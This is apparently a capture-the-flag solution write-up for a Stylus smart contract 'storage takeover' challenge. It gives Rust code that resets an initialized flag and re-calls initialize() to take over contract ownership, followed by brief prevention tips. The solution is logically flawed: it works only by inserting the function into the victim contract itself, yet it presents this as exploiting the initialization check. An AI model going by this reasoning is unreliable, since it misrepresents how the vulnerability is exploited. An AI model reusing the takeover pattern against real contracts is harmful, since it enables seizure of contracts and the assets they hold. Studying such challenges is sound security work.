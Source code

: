 # Storage Takeover Challenge Solution

## Challenge Overview
This challenge tests your understanding of Stylus smart contract storage manipulation and initialization patterns.

## Solution Steps

1. Add the following code to the `VulnerableContract` implementation:
```rust
pub fn exploit(&mut self) {
    // Reset the initialized flag to 0
    self.initialized.set(U256::from(0));
    
    // Call initialize to become the new owner
    self.initialize();
}
```

## Key Concepts
- The contract uses two storage slots:
  - Slot 0: owner (StorageU256)
  - Slot 1: initialized (StorageU256)
- The vulnerability lies in the initialization check
- By resetting the initialized flag, we can trigger reinitialization

## Explanation
1. `self.initialized.set(U256::from(0))` resets the initialization flag
2. `self.initialize()` sets us as the new owner since initialized is now 0
3. The contract's ownership is transferred to us through reinitialization

## Testing
1. Deploy the contract
2. Call the exploit function
3. Verify that msg.sender is now the owner

## Prevention
To prevent this vulnerability:
- Use proper initialization patterns
- Add access controls to storage modifications
- Consider using OpenZeppelin's Initializable pattern